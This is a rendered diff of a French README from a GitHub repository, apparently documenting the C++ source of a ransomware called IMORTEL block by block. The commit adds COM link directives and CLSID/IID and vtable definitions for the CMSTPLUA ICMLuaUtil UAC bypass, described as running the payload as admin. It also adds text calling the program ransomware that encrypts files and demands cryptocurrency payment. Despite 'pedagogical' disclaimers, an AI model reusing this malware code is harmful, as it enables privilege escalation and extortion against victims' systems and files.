

Before and after one commit to imortel-cyber/IMORTEL---Shadowvorcs, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 83% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -407,51 +407,58 @@ g++ imortel.cpp -o imortel.exe -luser32 -lgdi32 -lshell32 -lwinmm -lole32 -lolea
 #include <objbase.h>
 ```
 
-> **Ces inclusions permettent d'utiliser** - `windows.h` pour les fonctions API Windows et la manipulation du système, `iostream` pour les entrées/sorties standard, `thread` pour la création de threads en exécution parallèle, `string` et sstream pour la manipulation de chaînes de caractères, `vector` pour les conteneurs dynamiques, `ctime` et `cstdlib` pour les fonctions temporelles et utilitaires, `conio.h` pour les entrées/sorties console, ainsi que `comdef.h` et `objbase.h` pour le support COM pour le **bypass UAC**.
+> **Ces inclusions permettent d'utiliser** `windows.h` pour les fonctions API Windows et la manipulation du système, `iostream` pour les entrées/sorties standard, `thread` pour la création de threads en exécution parallèle, `string` et sstream pour la manipulation de chaînes de caractères, `vector` pour les conteneurs dynamiques, `ctime` et `cstdlib` pour les fonctions temporelles et utilitaires, `conio.h` pour les entrées/sorties console, ainsi que `comdef.h` et `objbase.h` pour le support COM pour le **bypass UAC**.
 
 ---
 
-### ▸ BLOC 02 — CONSTANTES & MACROS
+### ▸ BLOC 02 — DIRECTIVES DE LIAISON COM
 
-> 📌 **Remplace le code ci-dessous par tes vraies définitions de constantes**
+> ❗**Ce code est fourni strictement à des fins pédagogiques et d’analyse technique**
 
 ```cpp
 // ============================================================
-//  BLOC 02 — CONSTANTES & MACROS
-//  Centralise toutes les valeurs fixes du programme
+//  BLOC 02 — DIRECTIVES DE LIAISON COM
+//  Liaison automatique COM
 // ============================================================
 
-#define APP_NAME       TEXT("IMORTEL")
-#define APP_VERSION    TEXT("v1.0")
-#define WINDOW_WIDTH   800
-#define WINDOW_HEIGHT  600
-#define TIMER_ID       1
-#define TIMER_INTERVAL 1000    // millisecondes
-
-// Couleurs RGB personnalisées
-#define COLOR_BG       RGB(0,   0,   0  )   // Fond noir
-#define COLOR_RED      RGB(220, 20,  20 )   // Rouge signature IMORTEL
-#define COLOR_WHITE    RGB(255, 255, 255)   // Texte clair
+#pragma comment(lib, "ole32.lib")
+#pragma comment(lib, "oleaut32.lib")
 ```
 
-> **Explication à remplacer** — Les `#define` permettent de centraliser les valeurs fixes pour éviter les "magic numbers" dans le code. Modifier `WINDOW_WIDTH` ici suffit à changer toutes les occurrences. `RGB(r, g, b)` est une macro WinAPI qui encode les trois canaux couleur dans un entier 32 bits de type `COLORREF`.
+> **Ces directives** `#pragma` indiquent au compilateur de lier automatiquement les bibliothèques COM `ole32.lib` et `oleaut32.lib` nécessaires à l’interaction avec les objets COM Windows.
 
 ---
 
-### ▸ BLOC 03 — DÉCLARATIONS GLOBALES
+### ▸ BLOC 03 — DÉFINITIONS COM POUR LE BYPASS UAC
 
-> 📌 **Remplace le code ci-dessous par tes vraies variables globales**
+> ❗**Ce code est fourni strictement à des fins pédagogiques et d’analyse technique**
 
 ```cpp
 // ============================================================
-//  BLOC 03 — DÉCLARATIONS GLOBALES
-//  Variables et handles accessibles depuis toutes les fonctions
+//  BLOC 03 — DÉFINITIONS COM POUR LE BYPASS UAC
+//  Contournement de permissions, payload exécuté en admin
 // ============================================================
 
-HWND   g_hwnd       = NULL;    // Handle de la fenêtre principale
-HINSTANCE g_hInst   = NULL;    // Instance du processus
-BOOL   g_bRunning   = TRUE;    // Flag d'état — FALSE = arrêt propre
-int    g_iCounter   = 0;       // Compteur exemple (timer, frames...)
-TCHAR  g_szBuffer[256];        // Buffer texte réutilisable
+const CLSID CLSID_CMSTPLUA = { 0x3E5FC7F9, 0x9A51, 0x4367, { 0x90, 0x63, 0xA1, 0x20, 0x24, 0x4F, 0xBE, 0xC7 } };
+const IID IID_ICMLuaUtil = { 0x6EDD6D74, 0xC007, 0x4E75, { 0xB7, 0x6A, 0xE5, 0x74, 0x09, 0x95, 0xE2, 0x4C } };
+
+typedef interface ICMLuaUtil ICMLuaUtil;
+typedef struct ICMLuaUtilVtbl {
+    BEGIN_INTERFACE
+    HRESULT (STDMETHODCALLTYPE *QueryInterface)(ICMLuaUtil*, REFIID, void**);
+    ULONG   (STDMETHODCALLTYPE *AddRef)(ICMLuaUtil*);
+    ULONG   (STDMETHODCALLTYPE *Release)(ICMLuaUtil*);
+    HRESULT (STDMETHODCALLTYPE *Method1)(ICMLuaUtil*);
+    HRESULT (STDMETHODCALLTYPE *Method2)(ICMLuaUtil*);
+    HRESULT (STDMETHODCALLTYPE *Method3)(ICMLuaUtil*);
+    HRESULT (STDMETHODCALLTYPE *Method4)(ICMLuaUtil*);
+    HRESULT (STDMETHODCALLTYPE *Method5)(ICMLuaUtil*);
+    HRESULT (STDMETHODCALLTYPE *Method6)(ICMLuaUtil*);
+    HRESULT (STDMETHODCALLTYPE *ShellExec)(ICMLuaUtil*, LPCWSTR, LPCWSTR, LPCWSTR, LPCWSTR, int);
+    END_INTERFACE
+} ICMLuaUtilVtbl;
+struct ICMLuaUtil {
+    ICMLuaUtilVtbl *lpVtbl;
+};
 ```
 
@@ -579,23 +610,4 @@ return (int)msg.wParam;       // Code de retour du processus
-```
-  ┌──────────────────────────────────────────────────────────────┐
-  │                                                              │
-  │   [OS Windows — File d'attente de messages]                 │
-  │          │                                                   │
-  │          ▼                                                   │
-  │   GetMessage() ────── récupère le prochain message           │
-  │          │            retourne FALSE sur WM_QUIT             │
-  │          ▼                                                   │
-  │   TranslateMessage() ─ traduit touches → caractères         │
-  │          │                                                   │
-  │          ▼                                                   │
-  │   DispatchMessage() ── route vers WindowProc()               │
-  │          │                                                   │
-  │          └─────────────── [ boucle infinie ]                 │
-  │                                                              │
-  └──────────────────────────────────────────────────────────────┘
-```
-
-> **Explication à remplacer** — Cette boucle est le cœur de toute application Win32. `GetMessage` bloque jusqu'à ce qu'un message arrive dans la file du thread. Elle retourne `0` uniquement sur `WM_QUIT`, ce qui rompt la boucle et termine l'application proprement. `TranslateMessage` est requis pour que les appuis sur les touches de caractères génèrent des événements `WM_CHAR` en plus de `WM_KEYDOWN`.
+> **Ce ransomware** est une prise d'otages numérique, après avoir tout chiffré, le programme affiche un message sur l'écran. Ce message informe que les fichiers sont en `otages` et donne une instruction de paiement en `cryptomonnaie`.
 
 ---
 
````
Also changed, not shown: other parts of README.md (+115 -91 lines).
